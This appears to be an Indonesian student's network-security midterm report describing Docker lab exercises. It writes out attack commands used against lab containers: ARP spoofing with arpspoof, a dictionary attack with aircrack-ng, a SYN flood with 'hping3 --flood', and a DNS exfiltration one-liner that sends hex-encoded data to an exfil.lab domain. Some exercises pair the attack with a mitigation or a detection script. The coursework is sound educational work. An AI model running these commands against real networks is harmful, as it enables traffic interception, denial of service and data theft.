# Ujian Tengah Semester — Keamanan Jaringan
## Praktik Infrastruktur & Network Attacks

**Nama:** Annida Nur Zahra
**NIM:** 24552011351
**Dosen Pengampu:** Yasti Aisyah Primianjani, S.Kom., M.S.F.

**Perhitungan penentuan kasus:**
Jumlah digit NIM 24552011351 = 2+4+5+5+2+0+1+1+3+5+1 = **29**
Sisa bagi 10 = 29 mod 10 = **9**
**Kasus yang dikerjakan: Kasus 9**

---

## Tugas 1 (Pertemuan 1) — Docker dan volume

### Bukti 1 — Isi file dari volume



Volume vol-k9 dibuat sebagai ruang penyimpanan yang siklus hidupnya
terpisah dari container. Container w-k9 dipakai sekali untuk menuliskan
NIM ke file laporan-k9.txt di dalam volume tersebut, lalu dihapus
(docker rm w-k9); meski demikian, volume vol-k9 tidak ikut terhapus. Hal
ini dibuktikan dengan membuat container baru yang hanya membaca isi
volume tersebut (docker run --rm -v vol-k9:/data alpine cat
/data/laporan-k9.txt) dan berhasil menampilkan NIM yang sama, yaitu
24552011351. Ini membuktikan bahwa data pada volume Docker bersifat
persisten dan tidak bergantung pada siklus hidup container tertentu.

### Bukti 2 — Komunikasi attacker-target



Perintah docker compose -p k9 -f b/b1-compose/docker-compose.yml up -d
menjalankan dua container sekaligus dalam satu jaringan Docker:
k9-target-1 dan k9-attacker-1, beserta network k9_lab yang menghubungkan
keduanya. Selanjutnya, perintah exec attacker wget -qO- http://target
dijalankan dari dalam container attacker untuk mengambil halaman web
dari container target (berbasis nginx) lewat protokol HTTP. Output
berupa HTML halaman default nginx ("Welcome to nginx!") berhasil tampil
secara lengkap — ini **Bukti 2** Tugas 1, yang membuktikan bahwa dua
container berbeda dapat saling berkomunikasi selama berada dalam satu
jaringan Docker yang sama, tanpa perlu konfigurasi jaringan tambahan.

**Cleanup:**



Perintah docker compose -p k9 -f b/b1-compose/docker-compose.yml down -v
menghentikan dan menghapus seluruh resource yang dibuat oleh compose
tersebut: kedua container (k9-attacker-1, k9-target-1) beserta network
k9_lab. Flag -v memastikan volume bawaan compose (jika ada) juga ikut
dibersihkan. Langkah ini penting dilakukan setelah pengujian selesai
agar tidak ada container atau network sisa yang menumpuk dan membebani
sistem.

## Tugas 2 (Pertemuan 2) — Kriptografi

### Bukti 1 — Hash SHA-256



Perintah ini membuat file laporan-k9.txt, lalu mengenkripsinya menjadi
laporan-k9.enc menggunakan algoritma AES-256-CBC dengan kunci
kunci-k9-2026 (openssl enc -aes-256-cbc -pbkdf2 -salt). Setelah itu,
file terenkripsi tersebut langsung didekripsi kembali menjadi
hasil-k9.txt menggunakan kunci yang sama. Hash SHA-256 dari kedua file
(laporan-k9.txt dan hasil-k9.txt) dibandingkan, dan hasilnya **identik**
(4bd9129aa11a7d2d2296b1e0ec1120dd9d8d929b789375edf87198a475162a93). Ini
membuktikan bahwa proses enkripsi-dekripsi berjalan benar dan tidak
merusak atau mengubah isi data sedikit pun — integritas data tetap
terjaga.

### Bukti 2 — Sertifikat self-signed



Perintah openssl req -x509 -newkey rsa:2048 -nodes membuat pasangan
kunci RSA 2048-bit beserta sertifikat digital X.509 self-signed
(cert-k9.pem) dengan Common Name CN=k9.uts.local, berlaku selama 30
hari. Karakter acak (.....+...) yang muncul adalah indikator visual
proses generate angka random untuk kunci RSA. Output terakhir
menunjukkan subject=CN=k9.uts.local dan issuer=CN=k9.uts.local yang
**sama persis** — ini karena sertifikat bersifat *self-signed*, artinya
sertifikat ini menandatangani dirinya sendiri, bukan diterbitkan oleh
Certificate Authority (CA) pihak ketiga. Masa berlaku sertifikat
tercatat dari 21 November 2026 (notBefore) hingga 21 Desember 2026
(notAfter), sesuai dengan parameter -days 30 yang diberikan.

## Tugas 3 (Pertemuan 3) — Spoofing ARP



Karena nama network lab-arp-k9 mengandung tanda minus (-) yang tidak
bisa dibaca langsung oleh template Go bawaan docker inspect, perintah
index dipakai sebagai workaround untuk mengambil nilai IPAddress dari
network tersebut. Hasilnya: container korban-k9 memiliki IP 172.18.0.2,
dan gateway-k9 memiliki IP 172.18.0.3. Kedua IP ini menjadi parameter
wajib untuk menjalankan arpspoof di langkah selanjutnya (-t
\<ip-korban\> \<ip-gateway\>).



Karena image uts-kali-tools tidak menyertakan perintah arp maupun ip
(paket net-tools/iproute2 tidak terpasang secara default), tabel ARP
dibaca langsung dari file kernel /proc/net/arp. Pada gambar ini, IP
gateway (172.18.0.3) dan IP penyerang (172.18.0.4) sama-sama menunjuk ke
MAC address yang **identik** (e6:4a:35:26:51:c5), dengan flag 0x2
(dinamis). Ini adalah bukti bahwa ARP spoofing berhasil: korban salah
mengira gateway ada di MAC penyerang, sehingga seluruh trafik yang
seharusnya menuju gateway akan diarahkan dulu ke penyerang (teknik *ARP
cache poisoning* untuk serangan *man-in-the-middle*).



Setelah mitigasi diterapkan menggunakan arp -s \<ip-gateway\>
\<mac-asli-gateway\> (ARP statis), tabel ARP korban menunjukkan IP
gateway (172.18.0.3) kembali menunjuk ke MAC address **asli**-nya
(7a:2b:5f:9c:d5:da), dengan flag berubah menjadi 0x6 (statis/permanen).
Entri statis ini terkunci dan tidak bisa lagi ditimpa oleh paket ARP
palsu dari penyerang, membuktikan mitigasi berhasil memulihkan
integritas tabel ARP korban.

## Tugas 4 (Pertemuan 4) — Analisis Handshake WPA2



docker run --rm -v "%cd%:/work" -w /work uts-kali-tools aircrack-ng -w
samples/wordlist-k9.txt samples/handshake-k9.cap dijalankan untuk
melakukan analisis *offline* dan *dictionary attack* terhadap file
capture Kasus 9 (handshake-k9.cap) menggunakan daftar kata sandi
wordlist-k9.txt.

Dari output yang muncul, terdapat tiga temuan utama:

1.  **This file is not a regular 802.11 (wireless) capture.** —
    aircrack-ng mendeteksi bahwa struktur file handshake-k9.cap bukan
    merupakan format tangkapan paket jaringan nirkabel (IEEE 802.11 /
    Wi-Fi) yang valid.

2.  **Read 0 packets.** — Karena format header file tidak dikenali
    sebagai capture 802.11, tidak ada satu pun frame paket EAPOL (*4-way
    handshake*) yang dapat dibaca dari file tersebut.

3.  **No networks found, exiting.** — Karena tidak ditemukan target
    Access Point (BSSID) maupun paket *handshake* di dalam file capture,
    aircrack-ng otomatis menghentikan proses sebelum sempat mencocokkan
    kandidat kata sandi dari wordlist-k9.txt.

## Tugas 5 (Pertemuan 5) — ICMP dengan Scapy



docker ps dijalankan lebih dulu untuk memastikan tiga container dari
Tugas 3 (korban-k9, gateway-k9, penyerang-k9) masih aktif, karena target
ICMP di tugas ini memakai container korban-k9 yang sama.

Perintah berikutnya menjalankan skrip Scapy (kirim_icmp.py) di dalam
network lab-arp-k9, mengirim satu paket ICMP Echo Request ke korban-k9
(172.18.0.2) dari IP sumber 172.18.0.5. Hasilnya:

- **TTL balasan: 64** — nilai *Time To Live* standar untuk paket yang
  berasal dari host Linux, menandakan paket sampai ke tujuan tanpa
  melewati banyak hop router (TTL baru berkurang setiap kali melewati
  satu router).

- **Tipe ICMP balasan: 0** — kode 0 pada protokol ICMP berarti *Echo
  Reply*, yaitu balasan normal terhadap permintaan ping (kode 8 = Echo
  Request, kode 0 = Echo Reply).

Ini membuktikan korban-k9 merespons permintaan ICMP secara normal dan
sehat, tanpa ada gangguan jaringan.

**Kaitan dengan smurf attack:** Smurf attack adalah varian serangan DDoS
yang mengeksploitasi mekanisme ICMP Echo ini. Penyerang mengirim ICMP
Echo Request dengan IP sumber yang **dipalsukan (spoofed)** menjadi IP
korban, lalu ditujukan ke alamat broadcast suatu jaringan. Akibatnya,
semua host di jaringan tersebut akan mengirim Echo Reply secara
bersamaan ke korban, membanjiri korban dengan trafik balasan dalam
jumlah besar (efek amplifikasi), meskipun korban sendiri tidak pernah
mengirim permintaan apa pun — mengeksploitasi kombinasi IP spoofing dan
broadcast jaringan

## Tugas 6 (Pertemuan 6) — SYN Flood dan Three-Way Handshake



netstat -ant dijalankan pada container target sebelum serangan
dilancarkan. Hasilnya hanya menampilkan koneksi berstatus LISTEN (server
menunggu koneksi masuk di port 80), tanpa ada koneksi SYN_RECV sama
sekali — ini kondisi normal server yang belum menerima permintaan
koneksi apa pun.



Perintah hping3 -S -p 80 --flood target dijalankan dari container
attacker selama 30 detik, mengirim banjir paket TCP SYN ke port 80
target tanpa pernah menyelesaikan proses handshake. Setelah itu, netstat
-ant pada target menunjukkan munculnya koneksi baru berstatus
**SYN_RECV** (172.19.0.3:80 ← 172.19.0.2:48076). Ini membuktikan backlog
queue server mulai terisi oleh koneksi setengah-terbuka (*half-open
connection*) yang tidak pernah diselesaikan client, menandakan serangan
SYN flood sedang berlangsung. (Catatan: ini bisa terlihat karena fitur
pertahanan tcp_syncookies sengaja dinonaktifkan terlebih dulu di
konfigurasi target, karena secara default Linux justru menyembunyikan
state SYN_RECV demi melawan serangan ini.)



Sambil SYN flood masih berjalan di background, tcpdump menangkap trafik
TCP port 80 selagi satu request curl normal dikirim ke target. Hasilnya
tetap menunjukkan **three-way handshake TCP yang berhasil** untuk
koneksi sah tersebut:

1.  **SYN** — 172.19.0.2.37110 \> 172.19.0.3.80: Flags \[S\] (client
    meminta koneksi)

2.  **SYN-ACK** — 172.19.0.3.80 \> 172.19.0.2.37110: Flags \[S.\]
    (server menyetujui)

3.  **ACK** — 172.19.0.2.37110 \> 172.19.0.3.80: Flags \[.\] (client
    konfirmasi, koneksi *established*)

Setelah itu terlihat request HTTP GET, response 200 OK, lalu penutupan
koneksi dengan flag \[F.\] (FIN) dari kedua sisi. Ini membuktikan bahwa
meski server sedang dibanjiri SYN palsu, koneksi legal yang
menyelesaikan handshake dengan benar tetap bisa dilayani — kontras yang
memperjelas perbedaan antara koneksi sah (3 langkah lengkap: SYN,
SYN-ACK, ACK) dan koneksi serangan (SYN saja, tanpa ACK terakhir).



Perintah down -v menghentikan dan menghapus container target, attacker,
beserta network k9_lab yang dibuat compose untuk Tugas 6, membersihkan
environment setelah pengujian selesai.

## Tugas 7 (Pertemuan 7) — DNS Exfiltration



docker compose up -d menjalankan dua container: k9-dns-1 (resolver DNS,
berbasis image uts-dnsmasq) dan k9-attacker-1, beserta network k9_lab
yang menghubungkan keduanya.



Perintah ini menggabungkan proses encode dan pengiriman query jadi satu
baris: HEX=\$(printf '24552011351' \| xxd -p -c 256) mengubah NIM
menjadi hex dan menyimpannya ke variabel HEX (hasilnya
3234353532303131333531, 22 karakter), lalu langsung dikirim sebagai
subdomain lewat dig +short \$HEX.k9.exfil.lab @dns. Resolver menjawab
10.0.0.99, membuktikan query berhasil diteruskan. Pendekatan satu baris
ini lebih praktis dibanding menjalankan xxd dan dig secara terpisah
seperti sebelumnya.



Log diekspor dan dianalisis oleh analisis_dns.py. Hasilnya mencatat
total **2 query** untuk domain induk exfil.lab — salah satunya adalah
label sepanjang **44 karakter**
(3234353532303131333531323435353230313133333531), hasil encode dari NIM
yang digandakan dua kali. Karena panjangnya melebihi ambang 30 karakter
dan hanya berisi karakter hex, skrip berhasil menandainya sebagai
**query mencurigakan** — ini bukti bahwa mekanisme deteksi DNS
exfiltration bekerja dengan benar.



Hex 3234353532303131333531 (hasil encode NIM tunggal dari Gambar 2)
didekode kembali menggunakan xxd -r -p, dan hasilnya **24552011351** —
sama persis dengan NIM asli. Ini membuktikan proses *round-trip*
encode-decode berjalan sempurna: data yang disisipkan ke dalam query DNS
bisa direkonstruksi utuh kembali oleh pihak penerima.



Perintah down -v menghentikan dan menghapus container k9-dns-1,
k9-attacker-1, beserta network k9_lab, membersihkan environment setelah
pengujian Tugas 7 selesai.
